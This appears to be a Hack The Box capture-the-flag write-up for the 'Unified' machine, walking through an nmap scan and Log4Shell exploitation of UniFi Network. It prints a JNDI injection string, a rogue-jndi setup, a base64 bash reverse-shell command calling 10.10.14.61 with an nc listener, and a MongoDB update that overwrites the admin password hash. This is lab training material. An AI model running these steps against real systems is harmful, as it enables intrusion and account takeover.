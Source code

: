 ```yaml
---
date: 2024-11-15
categories:
    - Documentation
tags:
    - Hack The Box
    - CTF
    - MongoDB
---
```


# Unified Writeup
We spawn the target machine <TARGET_IP> and identify open ports using nmap :
   
```bash
nmap <TARGET_IP> -p-
```
Note : *-p-* to scan all TCP ports

We will get ports 80, 6789, 8080, and 8443

To view more about each port details, we can use *-sC* and *-sV*

```bash
nmap <TARGET_IP> -p 8443 -sC
```

This tells us that port 8443 is running Unifi Network

When we visit **https://<TARGET_IP>:8443**, we will see this login page
![alt text](image-6.png)

If we look for the vulnerabilities of this unifi version, we will find this [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228) related to Log4j2, called Log4Shell.

```java title=Logging Example
logger.debug("This is a DEBUG message.");
logger.info("This is an INFO message.");
logger.warn("This is a WARN message.");
```
This vulnerability can be exploited to give a reverse shell. It works by exploiting improper input handling in log messages format.
Log4j allows message lookup through JNDI (Java Naming and Directory Interface). JNDI allows lookup from databases, services, network and directories, including LDAP (Lightweight Directory Access Protocol) to retrieve resources.

Malicious input could contain JNDI Lookup string such as :
```java
${jndi:ldap://malicious-server.com/exploit}
```
When this is logged by vulnerable log4j instance, it will trigger log4j JNDI feature to connect to malicious server (could be attacker's machine).

We will try to login to the page, and intercept our request using BurpSuite. We will try to connect to our IP (tun0 from HTB).

![alt text](image-7.png)

Here, I used tcpdump to analyze my network traffic. It is a command line version of Wireshark.
```
Tcpdump is a command line utility that allows you to capture and analyze network traffic going through your system. It is often used to help troubleshoot network issues, as well as a security tool.
```
Since LDAP runs in port 389, we will listen on port 389.
And indeed, there is a connection to port 389 to our machine. Hence, we know that it is vulnerable to Log4Shell.

I use rogue-jndi to deliver our payload. To setup :
```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

A Rogue JNDI attack occurs when an attacker sets up a malicious server (e.g., an LDAP or RMI server) to respond to a JNDI lookup with malicious payloads. When the vulnerable application performs a lookup, it retrieves and executes the payload, enabling the attacker to execute arbitrary code, steal data, or compromise the system.

Here, we will send a reverse shell payload (base64 encoded to avoid encoding issues) :
```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.14.61/1443 0>&1' | base64
```

After encrypting the payload, we will send it using rogue-jndi by :
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,<PAYLOAD_HERE>}|{base64,-d}|{bash,-i}" --hostname "10.10.14.61"
```
Change the IP accordingly to your tun0 IP, and port 1443 can be any port to listen to. We will set a listener using nc :
```bash
nc -lvnp 1443
```

Then, we will use the **ldap://10.10.14.61:1389/o=tomcat** provided by the rogue-jndi and send it to the page again.
![alt text](image-8.png)

Now, we can see our nc is connected to the shell!
Lets upgrade the shell by using :
```bash
script /dev/null -c bash
```
**script** creates a new pseudo terminal (PTY).
**/dev/null** is to ensure that the logs is not saved (PTY without logging). 
**-c bash** to start bash shell in the pseudo terminal.

![alt text](image-9.png)
Here is our user.txt!


## Privilege Escalation
To see the running processes, we can use the **ps** command

*The ps command in Linux is a powerful tool that allows you to view information about the processes running on your Linux system. It stands for “process status” and it's a command that you can use from the command line to get information about the currently running processes.*

When we use *ps aux*, we notice that target uses mongo database.
<details> <summary><strong>Understanding ps aux</strong></summary>
ps: Stands for "process status." It is a command used to display information about active processes in the system.

a: This option tells ps to show processes for all users, not just the current user. By default, without this flag, ps only shows processes running under the current user’s session.

u: This option tells ps to display user-oriented output. This includes the username of the process owner, CPU usage, memory usage, start time, etc.

x: This option tells ps to show processes that are not attached to a terminal. These could include background processes, system services, or daemons.

</details>

```
ps aux | grep mongo
```

![alt text](image-10.png)
It shows that mongodb runs on the port 27117.

Unifi Network default database name is ace.
We will connect to the database and run some commands as shown.
![alt text](image-11.png)

We can enumerate the users, and find admin (the output is quite long so i grep it in here).
![alt text](image-14.png)

The password is in x_shadow and sha-512 (from the ```$6$``` prepended), and we cant crack it. So instead, we will just change it directly to our password.
![alt text](image-13.png)

Copy the password over, and update the database :
```java
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```
![alt text](image-15.png)

Now, if we try to login again, using ```adminstrator``` and our password (```eryz_pass``` in my case), we are authenticated!
![alt text](image-16.png)
And SSH login is enabled to root, using ```NotACrackablePassword4U2022```

Here is our flag :D
![alt text](image-17.png)